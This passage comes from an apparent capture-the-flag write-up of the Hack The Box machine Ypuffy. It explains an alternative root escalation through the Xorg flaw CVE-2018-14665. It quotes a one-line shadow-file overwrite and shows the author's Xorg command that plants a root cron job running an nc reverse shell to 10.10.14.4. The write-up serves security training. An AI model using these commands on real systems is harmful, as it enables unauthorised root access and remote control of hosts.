

And now I can grab the root.txt:



    ypuffy# cat root.txt
    1265f8e0...



## Beyond Root

### Alternative Privesc: alice1978 --\> root via CVE-2018-14665

#### Background

Ypuffy was released in September 2018, and a little over a month later
(on 25 October), CVE-2018-14665 was released identifying an incorrect
permission check in Xorg that allowed privilege escalation from
unprivileged users.

There are tons of scripts on GitHub etc that will exploit this
vulnerability automatically. There's also a Metasploit module. I'm going
to do it manually.

The basic vulnerability is pretty simple: Xorg, assuming it's running
setuid, can overwrite a log file wherever the user tells it to with
whatever data the user gives it. There will be other data in there, but
that can still be quite powerful.

For example, HackerFantastic on Twitter tweeted out a [POC in a single
tweet](https://twitter.com/hackerfantastic/status/1055517801224396800):

> #CVE-2018-14665 - a LPE exploit via <https://t.co/eax3fvaAjE> fits in
> a tweet\
> \
> cd /etc; Xorg -fp \"root::16431:0:99999:7:::\" -logfile shadow :1;su\
> \
> Overwrite shadow (or any) file on most Linux, get root privileges.
> \*BSD and any other Xorg desktop also affected.
>
> --- Hacker Fantastic (@hackerfantastic) [October 25,
> 2018](https://twitter.com/hackerfantastic/status/1055517801224396800?ref_src=twsrc%5Etfw)

#### Exploit

With that in mind, there are a few places I could target. The
`/etc/master.passwd` file (like `/etc/shadow` on BSD). I'll go for the
`crontab`.

I started a listener on port 443, and then wrote my cron:



    ypuffy$ Xorg -fp "* * * * * root rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.4 443 > /tmp/f" -logfile crontab :1 &
